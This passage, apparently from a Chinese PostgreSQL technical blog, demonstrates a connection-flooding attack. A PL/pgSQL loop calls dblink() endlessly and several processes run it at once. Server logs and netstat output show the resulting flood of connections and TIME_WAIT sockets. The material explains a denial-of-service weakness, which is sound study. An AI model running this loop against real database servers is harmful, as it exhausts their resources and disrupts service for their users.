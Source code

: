 创建一个攻击loop  
  
```  
postgres=> do language plpgsql                                                              
$$  
declare  
begin  
loop  
  perform dblink();  
end loop;  
end;  
$$;  
```  
  
开多个进程来攻击，会很爽。  
  
你会看到大量的日志如下：  
  
```  
2015-10-22 19:16:41.738 CST,"postgres","postgres",16167,"127.0.0.1:37869",5628c599.3f27,3,"idle",2015-10-22 19:16:41 CST,,0,LOG,00000,"disconnection: session time: 0:00:00.004 user=postgres database=postgres host=127.0.0.1 port=37869",,,,,,,,"log_disconnections, postgres.c:4511",""  
2015-10-22 19:16:41.739 CST,,,16168,"",5628c599.3f28,1,"",2015-10-22 19:16:41 CST,,0,LOG,00000,"connection received: host=127.0.0.1 port=37870",,,,,,,,"BackendInitialize, postmaster.c:4013",""  
2015-10-22 19:16:41.740 CST,"postgres","postgres",16168,"127.0.0.1:37870",5628c599.3f28,2,"authentication",2015-10-22 19:16:41 CST,2/12827,0,LOG,00000,"connection authorized: user=postgres database=postgres",,,,,,,,"PerformAuthentication, postinit.c:258",""  
2015-10-22 19:16:41.743 CST,"postgres","postgres",16168,"127.0.0.1:37870",5628c599.3f28,3,"idle",2015-10-22 19:16:41 CST,,0,LOG,00000,"disconnection: session time: 0:00:00.004 user=postgres database=postgres host=127.0.0.1 port=37870",,,,,,,,"log_disconnections, postgres.c:4511",""  
2015-10-22 19:16:41.743 CST,,,16169,"",5628c599.3f29,1,"",2015-10-22 19:16:41 CST,,0,LOG,00000,"connection received: host=127.0.0.1 port=37871",,,,,,,,"BackendInitialize, postmaster.c:4013",""  
2015-10-22 19:16:41.744 CST,"postgres","postgres",16169,"127.0.0.1:37871",5628c599.3f29,2,"authentication",2015-10-22 19:16:41 CST,2/12828,0,LOG,00000,"connection authorized: user=postgres database=postgres",,,,,,,,"PerformAuthentication, postinit.c:258",""  
```  
  
同时大量的tcp TIME_WAIT  
  
```  
[root@digoal pg_root_1921]# netstat -anp|grep TIMEWAIT  
[root@digoal pg_root_1921]# netstat -anp|grep 1921  
tcp        0      0 0.0.0.0:1921                0.0.0.0:*                   LISTEN      3082/postgres         
tcp        0      0 127.0.0.1:18236             127.0.0.1:1921              TIME_WAIT   -                     
tcp        0      0 127.0.0.1:18206             127.0.0.1:1921              TIME_WAIT   -                     
tcp        0      0 127.0.0.1:18160             127.0.0.1:1921              TIME_WAIT   -                     
tcp        0      0 127.0.0.1:18183             127.0.0.1:1921              TIME_WAIT   -                     
tcp        0      0 127.0.0.1:18240             127.0.0.1:1921              TIME_WAIT   -                     
tcp        0      0 127.0.0.1:18169             127.0.0.1:1921              TIME_WAIT   -                     
tcp        0      0 127.0.0.1:18172             127.0.0.1:1921              TIME_WAIT   -                     
tcp        0      0 127.0.0.1:18254             127.0.0.1:1921              TIME_WAIT   -                     
tcp        0      0 127.0.0.1:18157             127.0.0.1:1921              TIME_WAIT   -       
```  
  